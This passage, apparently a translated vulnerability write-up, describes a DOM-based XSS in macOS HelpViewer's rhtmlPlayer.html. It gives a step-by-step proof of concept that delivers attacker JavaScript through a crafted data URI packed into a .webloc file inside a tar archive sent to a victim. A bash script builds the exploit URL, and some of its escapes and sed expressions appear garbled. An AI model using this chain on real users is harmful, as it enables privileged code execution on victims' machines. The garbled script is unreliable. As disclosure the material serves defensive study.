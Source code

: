 简而言之，这段代码会从“rhtml”查询字符串参数中提取url地址，然后向该地址发起请求，将响应数据作为javascript代码加以执行。

这段代码中包含两段不同的基于DOM的XSS代码。

第一段代码位于loadLocStrings()函数内，该代码创建了一个SCRIPT元素，使用“rhtml”参数作为“src”的属性。

第二段代码位于init()函数内，使用“rhtml”参数发起ajax调用，然后将响应数据直接传递个eval()进行处理。

这样做的结果就是同样的载荷会被执行两次。

攻击者只要提供一个包含恶意数据的uri，就能控制响应数据，进而控制执行语句。

攻击者可以使用.webloc文件来利用这个漏洞。通常情况下，这类文件包含url地址，使用Safari打开这类文件时，它们会自动加载这个url地址。

攻击者可以构造一个.webloc文件，诱导受害者打开这个文件，然后就可以在受害者主机上执行高权限javascript命令。

由于.webloc文件同样会使用扩展属性来存储数据，因此攻击者需要将这类文件存放在tar归档文件中再发送给受害者（也可以存储在其他支持扩展属性的文件中）。



**PoC**

如果要重现这个漏洞，我们需要执行如下操作：

1、创建一个在目标上执行的javascript文件。

2、使用base64对文件内容进行编码。

3、将其编码为“uri组件（uri component）”（例如，我们可以使用encodeURIComponent这个js函数完成这一任务）。

4、利用这段数据构造如下形式的uri：

```
data:text/plain;base64,&lt;urlencoded base64&gt;
```

5、在开头添加如下字符串：

```
file:///System/Library/CoreServices/HelpViewer.app/Contents/Resources/rhtmlPlayer.html?rhtml=
```

6、使用Safari打开这个地址。

7、将其保存为书签。

8、将该书签拖放到Finder中（此时会创建一个.webloc文件，如果扩展名不是.webloc，需要重命名为正确的扩展名）。

9、创建一个tar归档文件，包含这个.webloc文件。

10、将归档文件发送给受害者。

需要注意的是，受限于rhtmlPlayer.html的处理流程，为了访问本地资源，我们所构造的javascript代码中第一行必须为：document.getElementsByTagName("base")[0].href=""。

我们可以使用如下bash脚本，将某个javascript文件转化为最终可利用的“file” url地址：



```
#!/bin/bash
BASEURL="file:///System/Library/CoreServices/HelpViewer.app/Contents/Resources/rhtmlPlayer.html?rhtml="
BASEJS="(function()`{`document.getElementsByTagName('base')[0].href='';if('_' in window)return;window._=1;"
DATAURI="data:text/plain;base64,"
JSFILE=$1
if [ "$JSFILE" = "" ]; then
  echo "usage: $0 "
  exit 1
fi
JS=$BASEJS`cat $JSFILE`"`}`)();"
ENCJS=`echo -n $JS | base64 | sed 's/=/%3D/g' | sed 's/+/%2F/g' | sed 's///%2B/g'`
URL="$BASEURL""$DATAURI""$ENCJS"
echo -ne "Paste the url below into Safari's url bar:n33[33m$URL33[0mn"
```
